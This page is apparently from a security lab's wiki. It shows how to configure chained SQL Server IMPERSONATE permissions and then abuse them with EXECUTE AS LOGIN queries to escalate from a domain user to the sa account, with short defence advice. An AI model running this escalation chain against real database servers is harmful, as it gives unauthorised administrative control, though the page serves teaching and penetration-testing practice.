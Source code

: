 ```yaml
---
description: >-
  SQL Server has a special permission, named impersonate, this enables one user
  to operate with the permissions of another user as well as their own
  permissions.
---
```


# Impersonation

## Configuring

### Prerequisite

{% content-ref url="../initial-access/normal-domain-user-access.md" %}
[normal-domain-user-access.md](../initial-access/normal-domain-user-access.md)
{% endcontent-ref %}

### Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.
2. Open "Microsoft SQL Server Management Studio"

![](<../../../../.gitbook/assets/image (34) (1).png>)

3\. Login with the `Administrator` user using Windows Authentication.

![](<../../../../.gitbook/assets/image (7) (1).png>)

4\. Click “New Query” button and use the SQL query below to create two new users:

![](<../../../../.gitbook/assets/image (29) (1).png>)

```
CREATE LOGIN Developer WITH PASSWORD = 'MyPassword!';
CREATE LOGIN Developer_test WITH PASSWORD = 'MyPassword!';
```

![](<../../../../.gitbook/assets/image (50).png>)

5\. Rune the following Query to allow impersonation:

```
GRANT IMPERSONATE ON LOGIN::Developer to [AMSTERDAM\Richard];
GRANT IMPERSONATE ON LOGIN::Developer_test to [Developer];
GRANT IMPERSONATE ON LOGIN::sa to [Developer_test];
```

![](<../../../../.gitbook/assets/image (36).png>)

## Attacking

### How it works

SQL Server has a special permission, named impersonate, this enables one user to operate with the permissions of another user as well as their own permissions. For example: user A can impersonate user B which can impersonate user C which can impersonate sa. This can be used to escalate privileges.

### Tools

* [HeidiSQL](https://www.heidisql.com)

### Executing the attack

1. Login to `WS01` as Richard with the password `Sample123`.
2. Download and start heidiSQL.
3. Click on "New" on the left bottom and configure the following settings:

* Network Type: `Microsoft SQL Server (TCP/IP)`
* Library: `SQLOLEDB`
* Hostname / IP: `WEB01.amsterdam.bank.local`
* Select: "Use Windows Authentication"
* Port: `1433`

![](<../../../../.gitbook/assets/image (33).png>)

4\. Click "OK" on the security Issue warning.

5\. Click on the "Query" tab and enter the following Query to check which users can be impersonated by the current user:

```
-- Find users that can be impersonated
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

We can impersonate the `Developer` user.

![](<../../../../.gitbook/assets/image (62).png>)

6\. Impersonate the `Developer` user with the following Query:

```
EXECUTE AS LOGIN = 'developer'
```

![](<../../../../.gitbook/assets/image (42) (1).png>)

{% hint style="info" %}
Make sure the Master database is selected since the developer user doesn't have access to the production database.
{% endhint %}

7\. Execute the who can be impersonated query again:

![](<../../../../.gitbook/assets/image (52).png>)

8\. Impersonate the user `sa`:

```
EXECUTE AS LOGIN = 'sa'
```

![](<../../../../.gitbook/assets/image (42).png>)

Hmm that doesn't work, lets impersonate `Developer_test`

8\. Impersonate `Developer_test`:

```
EXECUTE AS LOGIN = 'Developer_test'
```

9\. Execute the who can be impersonated query again:

![](<../../../../.gitbook/assets/image (7).png>)

10\. Impersonate `sa`:

```
EXECUTE AS LOGIN = 'sa'
```

Now no error:

![](<../../../../.gitbook/assets/image (43).png>)

We successfully impersonated `Developer` --> `Developer_test` --> `sa`.

Check the executing commands page under SQL Server Attacks to learn to execute cmd commands:

{% content-ref url="../executing-commands.md" %}
[executing-commands.md](../executing-commands.md)
{% endcontent-ref %}

## Defending

### Recommendations

* Use signed stored procedures that have been assigned access to external objects. This seems like the most secure option with the least amount of management overhead. Similar to the EXECUTE WITH option, this can result in escalation paths if the store procedure is vulnerable to SQL injection, or is simply written to allow users to take arbitrary actions. More information at [http://msdn.microsoft.com/en-us/library/bb283630.aspx](http://msdn.microsoft.com/en-us/library/bb283630.aspx).

### Detection



## References

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-2-user-impersonation" %}
